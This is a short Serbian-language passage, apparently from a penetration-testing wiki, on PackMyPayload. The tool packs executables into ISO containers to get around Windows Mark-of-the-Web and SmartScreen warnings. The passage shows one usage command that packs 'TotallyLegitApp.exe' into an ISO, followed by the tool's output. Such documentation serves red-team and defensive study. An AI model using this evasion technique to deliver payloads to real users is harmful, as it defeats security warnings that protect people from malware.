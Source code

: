 [**PackMyPayload**](https://github.com/mgeeky/PackMyPayload/) je alat koji pakuje payload-e u izlazne kontejnere kako bi izbegli Mark-of-the-Web.

Primer korišćenja:

```powershell
PS C:\Tools\PackMyPayload> python .\PackMyPayload.py .\TotallyLegitApp.exe container.iso

+      o     +              o   +      o     +              o
+             o     +           +             o     +         +
o  +           +        +           o  +           +          o
-_-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-^-_-_-_-_-_-_-_,------,      o
:: PACK MY PAYLOAD (1.1.0)       -_-_-_-_-_-_-|   /\_/\
for all your container cravings   -_-_-_-_-_-~|__( ^ .^)  +    +
-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-_-__-_-_-_-_-_-_-''  ''
+      o         o   +       o       +      o         o   +       o
+      o            +      o    ~   Mariusz Banach / mgeeky    o
o      ~     +           ~          <mb [at] binary-offensive.com>
o           +                         o           +           +

[.] Packaging input file to output .iso (iso)...
Burning file onto ISO:
Adding file: /TotallyLegitApp.exe

[+] Generated file written to (size: 3420160): container.iso
```

Evo demonstracije zaobilaženja SmartScreen-a pakovanjem payload-a unutar ISO datoteka korišćenjem [PackMyPayload](https://github.com/mgeeky/PackMyPayload/)

<figure><img src="../.gitbook/assets/packmypayload_demo.gif" alt=""><figcaption></figcaption></figure>
